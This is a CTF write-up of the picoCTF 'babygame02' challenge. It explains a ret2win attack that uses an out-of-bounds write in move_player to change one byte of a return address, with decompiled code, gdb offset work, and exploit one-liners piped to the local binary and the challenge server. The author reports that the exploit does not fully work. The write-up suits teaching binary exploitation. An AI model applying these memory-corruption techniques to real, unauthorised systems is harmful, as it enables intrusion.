 # babygame02

ret2win using Array Out-of-bounds Exploit

> REASON FOR LACK OF COMPLETION: SEE [HERE](#problem-unable-to-flush-stdout)

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/babygame02/game'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE, so the address of `win` does not change per runtime

## Context

Do give the writeup on [babygame01](../babygame01/solve.md) a read as this writeup will not rehash the commonalities between `babygame01` and `babygame02`.  

## Differences

First, stack offset differences (note that this is within the stack frame of `main`). In `babygame01`, we have

```
[ebp-0xa98] -> map
[ebp-0xaa4] -> player_stats
```

where `map = player_stats + 12`, but now in `babygame02`, we have

```
[ebp-0xa95] -> map
[ebp-0xaa0] -> player_stats
```

where `map = player_stats + 11`. This offset (or rather, the exact offset from `ebp`) is now important because of the next difference. 

The other important difference is that there is no mention of the flag (or rather any call to `win`, which prints the flag) at all in `main`. Thus while the `win` function exists in both `babygame01` and `babygame02`, it is only in `babygame02` that we need to overwrite some return address of to point to `win`. 

## Which return address to overwrite?

The `move_player` function (decompiled using Ghidra) that did not change across `babygame01` and `babygame02`  is as follows

```c
void move_player(int *player_stats,char input,int map) {

  ...

  if (input == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }

  ...

  *(undefined *)(*player_stats * 0x5a + map + player_stats[1]) = 0x2e;
  if (input == 'w') {
    *player_stats = *player_stats + -1;
  }
  else if (input == 's') {
    *player_stats = *player_stats + 1;
  }
  else if (input == 'a') {
    player_stats[1] = player_stats[1] + -1;
  }
  else if (input == 'd') {
    player_stats[1] = player_stats[1] + 1;
  }
  *(undefined *)(*player_stats * 0x5a + map + player_stats[1]) = player_tile;
  return;
}
```

Since we can set `player_tile` using option `l`, we might assume we have arbitrarily write capability across the stack, but this is not true. The line

```c
*(undefined *)(*player_stats * 0x5a + map + player_stats[1]) = 0x2e;
```

sets the byte at memory address we are moving the player from to a constant `0x2e`, and thus we actually only have control of a single byte. 

We thus cannot overwrite the address that `main` will return to, because that address is usually in `__libc_start_main` which addresses usually differ significantly from the function addresses in the text segment (where `win` resides). 

Instead, we write to **lower** addresses to overwrite the return address of the `move_player` function that `main` calls. 

Why `move_player`? First, it is directly called by `main`, so we do not have to worry about stepping on other things before getting to the return address we want to overwrite. Second, it is exactly the function that we use for the overwrite, so we do not have to ensure that a chain of things still work without error before we hit our target function's return - after making the one-byte overwrite, the target function immediately returns without the possibility of stack frame-alignment errors, etc. 

## Finding Offsets

We set a breakpoint at the call to `move_player` in `main` to inspect `ebp` and `esp` before the call occurs. 

```
gef➤  b *0x8049704
Breakpoint 1 at 0x8049704
gef➤  c

...

gef➤  p $esp
$1 = (void *) 0xffffc2f0
gef➤  p $ebp
$2 = (void *) 0xffffcda8
```

We see that at this point `esp = ebp - 0xab8`, where the `ebp` we reference is still that of the stack frame of `main`. The return address of `move_player` will thus be at `[ebp-0xabc]`. 

Now, in the text segment, `win` comes immediately after `main`, and because there is no PIE, we know that the return address at `[ebp-0xabc]` is `0x08049709`, and the address of `win` is `0x804975d`. So only the least significant byte needs to be overwritten, and for little-endian ordering that byte occurs exactly at `[ebp-0xabc]`. 

## Executing the Write

Recall that `map` starts at `[ebp-0xa95]`, so we need to move `-0x27` from the start of `map` to get to `[ebp-0xabc]`. We see that 

```
-0x27 % 0x5a = 0x33
```

so we want to move the player to row -1 and column 51. 

## PROBLEM: UNABLE TO FLUSH STDOUT

There are issues with flushing stdout before the `printf` in `win` (since only if I included a newline in the flag would it print). 

Not sure how to induce the binary to print a newline or run `fflush(stdout)` or `fflush(null)`

Even trying a different approach (credit to [this writeup](https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/babygame02/babygame02.md) for the commands) i.e. running

```bash
echo -e $(python3 -c 'print("l]" + "d"*(51-4) + "w"*5)') | ./game
```

or

```bash
echo -e $(python3 -c 'print("l]" + "d"*(51-4) + "w"*5)') | nc saturn.picoctf.net 57631
```

does not work. 